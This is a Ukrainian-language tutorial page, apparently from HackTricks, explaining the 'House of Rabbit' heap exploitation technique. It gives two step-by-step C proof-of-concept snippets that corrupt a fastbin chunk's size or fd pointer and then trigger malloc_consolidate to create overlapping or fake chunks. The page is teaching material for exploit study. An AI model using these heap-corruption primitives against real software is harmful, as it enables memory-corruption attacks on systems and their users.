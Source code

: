 # House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### Вимоги

1. **Здатність змінювати вказівник fd швидкого бін або розмір**: Це означає, що ви можете змінити вказівник вперед для частини в швидкому біні або її розмір.
2. **Здатність викликати `malloc_consolidate`**: Це можна зробити, або виділивши велику частину, або об'єднавши верхню частину, що змушує купу об'єднувати частини.

### Цілі

1. **Створити перекриваючі частини**: Щоб одна частина перекривалася з іншою, що дозволяє подальші маніпуляції з купою.
2. **Підробити фальшиві частини**: Щоб обманути аллокатор, змусивши його вважати фальшиву частину легітимною під час операцій з купою.

## Кроки атаки

### POC 1: Змінити розмір частини швидкого біна

**Мета**: Створити перекриваючу частину, маніпулюючи розміром частини швидкого біна.

- **Крок 1: Виділити частини**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Ми виділяємо два шматки по 0x40 байт кожен. Ці шматки будуть поміщені в список швидких бінів після звільнення.

- **Крок 2: Звільнити шматки**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Ми звільняємо обидва шматки, додаючи їх до списку fastbin.

- **Крок 3: Змінити Розмір Шматка**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Ми змінюємо метадані розміру `chunk1` на 0xa1. Це критично важливий крок, щоб обманути аллокатор під час консолідації.

- **Крок 4: Викликати `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Виділення великого блоку викликає функцію `malloc_consolidate`, об'єднуючи маленькі блоки в швидкому біні. Маніпульований розмір `chunk1` призводить до його перекриття з `chunk2`.

Після консолідації `chunk1` перекривається з `chunk2`, що дозволяє подальшу експлуатацію.

### POC 2: Модифікуйте вказівник `fd`

**Мета**: Створити фейковий блок, маніпулюючи вказівником `fd` швидкого біна.

- **Крок 1: Виділити блоки**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Пояснення**: Ми виділяємо два шматки, один менший і один більший, щоб налаштувати купу для фейкового шматка.

- **Крок 2: Створити фейковий шматок**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Ми записуємо підроблену метадані частини в `chunk2`, щоб змоделювати менші частини.

- **Крок 3: Вивільнити `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Пояснення**: Ми звільняємо `chunk1`, додаючи його до списку fastbin.

- **Крок 4: Змінити `fd` `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Пояснення**: Ми змінюємо вказівник вперед (`fd`) `chunk1`, щоб він вказував на наш фейковий шматок всередині `chunk2`.

- **Крок 5: Виклик `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Виділення великого блоку знову викликає `malloc_consolidate`, який обробляє фейковий блок.

Фейковий блок стає частиною списку fastbin, що робить його легітимним блоком для подальшої експлуатації.

### Резюме

Техніка **House of Rabbit** полягає в модифікації розміру блоку fast bin для створення перекриваючих блоків або маніпуляції вказівником `fd` для створення фейкових блоків. Це дозволяє зловмисникам підробляти легітимні блоки в купі, що відкриває можливості для різних форм експлуатації. Розуміння та практика цих кроків покращить ваші навички експлуатації купи.

{{#include ../../banners/hacktricks-training.md}}
